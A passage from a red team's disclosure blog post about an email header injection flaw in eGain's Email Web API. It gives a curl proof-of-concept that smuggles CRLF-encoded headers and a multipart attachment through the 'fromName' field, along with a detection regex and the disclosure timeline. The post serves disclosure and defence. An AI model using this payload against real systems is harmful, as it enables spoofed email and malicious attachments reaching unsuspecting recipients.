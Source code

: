 If the interpreter is properly compliant with RFC 1341, then we should
be able to force an implementation to ignore the original email with a
multipart message. We can craft a message part that renders HTML or
holds a base64 encoded attachment. Additionally, all of those leftover
headers from our header injection should be ignored by the interpreting
servers and clients upon delivery of the message as they will appear
after our final boundary.

![](https://cdn-images-1.medium.com/max/1200/1*5hH9Zb5KpKR5UDkFXPowCQ.png)

### Proof of Concept

Using the following POC, you can successfully send a Multipart Email by
exploiting Header Injection in the eGain Email Web API Endpoint.

    curl https://#APPLICATION/system/ws/v11/ss/email -H "Content-Type: application/json" -H "Accept: application/json" -d 'portalId=#PORTALID&data={"toName":"","fromName":"%0ATo:%20#TOEMAIL%0AFrom:%20#FROMEMAIL%0ASubject:%20Example%20Header%20Injection%0AMIME-Version:%201.0%0AContent-type:%20multipart/mixed;%20boundary=--=_Part_451_4752221808.74367274130021%0A%0A----=_Part_451_4752221808.74367274130021%0AContent-Type:%20text/html;%20charset=UTF-8%0A%0A#MESSAGEBODY%0A%0A----=_Part_451_4752221808.74367274130021%0AContent-Transfer-Encoding:%20base64%0AContent-Type:%20#ATTACHMENT-CONTENT-TYPE;%20name=#ATTACHMENT-NAME%0A%0A#ATTACHMENT-DATA-BASE64ENCODED%0A%0A----=_Part_451_4752221808.74367274130021--%0A","toEmail":"#TOEMAIL","fromEmail":"#FROMEMAIL","articleId":"#ARTICLEID","message":""}&usertype=customer'

### Detection

System Administrators and Defenders can detect attempts to exploit this
technique by monitoring POST requests to the uri:
`/system/ws/v11/ss/email`. Any POST request that contains the strings
(in regex form)`/"fromName":\s*"(%0D|%0A)/` in the POST parameters is
likely an attempt to exploit this vulnerability.

Additionally, and if possible, you may be able to discard or raise the
spam score of emails at the Email Gateway that contain duplicated `From`
headers.

### Conclusion and Recommendations

Through disclosure and coordination with our customer, eGain was made
aware of the vulnerability in early June of 2019. We are aware that
eGain has created a patch that provides system owners more flexibility
in controlling the email feature and have improved the input
sanitization. It is our understanding that eGain has notified all their
customers and issued them the patch easily before August 2019. We have
additionally waited 3 more months before releasing this blog to ensure
all customers have had time to update their systems. We were able to
validate the patch does remediate the vulnerability for eGain systems
our customer uses. It is recommended that those with their own eGain
infrastructure update immediately. We could not determine exactly how
far back the vulnerability goes, but know it is a core functionality of
the product and believe it was introduced as early as with the version
11 web services API. If you use eGain Cloud to host your eGain products,
you should confirm with your technical point-of-contact that your
product has had this vulnerability addressed. Due to the proprietary
nature of the software, the Maveris Red Team is not aware of all
functionality and services that eGain may offer, and as such, has not
tested other systems outside of those that its customers use.

### Acknowledgements and Credit for Vulnerability Discovery:

-   [@ruddawg26](https://twitter.com/ruddawg26)
-   [@khr0x40sh](https://twitter.com/khr0x40sh)
-   [@thecyberbutler](https://twitter.com/thecyberbutler)
